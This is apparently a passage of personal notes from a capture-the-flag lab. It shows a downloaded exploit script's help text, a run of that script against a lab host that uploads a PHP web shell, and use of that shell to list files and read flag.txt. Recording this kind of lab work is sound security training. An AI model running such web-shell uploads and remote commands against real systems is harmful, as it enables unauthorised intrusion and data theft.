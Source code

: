 Looking into the script file  (nano // -help)
```
root@ip-10-10-113-30:~# python3 47887.py -h
usage: 47887.py [-h] url

positional arguments:
  url         The URL of the target.

optional arguments:
  -h, --help  show this help message and exit
```
![[Pasted image 20240807154306.png]]

Running the exploit file accordingly:
```
root@ip-10-10-113-30:~# python3 47887.py http://10.10.69.132  !!!
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.69.132/bootstrap/img/o5KiH8doVD.php
> Example command usage: http://10.10.69.132/bootstrap/img/o5KiH8doVD.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y 
RCE $ ls           !!!
OyWjgNLIbq.php
android_studio.jpg
beauty_js.jpg
c_14_quick.jpg
c_sharp_6.jpg
doing_good.jpg
flag.txt         !!!
img1.jpg
img2.jpg
img3.jpg
kotlin_250x250.png
logic_program.jpg
mobile_app.jpg
o5KiH8doVD.php
pro_asp4.jpg
pro_js.jpg
t73N0AoVQ2.php
unnamed.png
web_app_dev.jpg

RCE $ cat flag.txt  !!!
```

